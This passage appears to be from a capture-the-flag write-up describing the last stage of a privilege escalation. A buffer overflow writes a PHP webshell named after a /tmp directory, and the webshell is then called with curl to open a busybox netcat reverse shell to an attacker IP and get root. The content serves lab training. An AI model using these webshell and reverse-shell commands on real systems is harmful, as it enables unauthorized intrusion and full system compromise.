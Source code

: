 ```python
```
Finally in order to exploit the target we need to create a directory in /tmp with inside it another directory named as out php command:
```bash
#/bin/bash

cd /tmp
mkdir bf_overflow
cd bf_overflow
mkdir '<?=`$_GET[0]`?>'
```
once we have done that we can send the payload to the web application using burpsuite:
    
![sending payload](./pic/sending_payload.png)
    
Now if we check the files of the webserver we can see that there is the file that we created via this buffer overlfow:
    
![exploit succesfull](./pic/file_uploaded.png)
    
Now we just need to start the listener on our local machine and send the payload on the webshell:
```bash
pwncat-cs -lp 4444  #on our machine, i used pwncat-cs as listener
```
and send the payload using curl:
```bash
curl 'http://127.0.0.1:9999/bf_overflow.php?0=busybox%20nc%2010.10.16.103%204444%20-e%20/bin/bash' 
```
Now we have our root shell!!
    
